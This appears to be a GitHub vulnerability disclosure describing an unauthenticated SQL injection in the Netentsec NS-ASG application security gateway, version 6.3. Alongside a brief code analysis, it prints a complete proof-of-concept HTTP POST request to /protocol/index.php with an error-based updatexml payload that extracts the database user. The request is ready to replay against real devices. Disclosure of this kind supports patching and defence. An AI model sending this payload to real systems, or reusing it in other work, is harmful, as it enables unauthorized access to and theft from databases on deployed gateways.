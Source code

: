 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /protocol/firewall/deletebuildip.php
analyse as below:
The $Id variable is imported through the variable messagecontent, and then the $Id variable is traversed and directly substituted into the SQL statement without any verification. Causing unauthorized sql injection
<img width="602" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/fb160d14-6065-4bd7-9ab1-e786b140d664">




Poc：
```
POST /protocol/index.php HTTP/1.1
Host: 
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 129

jsoncontent={"protocolType":"deletebuildip","messagecontent":["2332'+and+(updatexml(1,make_set(3,0x7e,(select+user())),1))%23"]}
```

<img width="582" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/2c569bdf-4dae-45cb-b4d9-fded0a8099ab">
